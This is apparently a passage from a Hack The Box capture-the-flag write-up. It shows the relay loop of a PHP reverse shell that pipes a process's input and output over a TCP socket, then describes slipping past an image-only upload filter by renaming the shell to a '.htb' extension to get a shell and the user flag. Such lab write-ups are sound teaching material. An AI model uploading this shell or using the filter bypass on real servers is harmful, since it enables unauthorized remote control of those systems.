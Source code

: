 ```php
        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }

        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }

        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?> 

```

if we upload it we will see an error 

`You cant upload this this file. You can upload only images.`

We can try a bunch of different file extensions but .htb works so if we make it shell.htb

it will upload successfully

and we now have a shell where we can get user flag
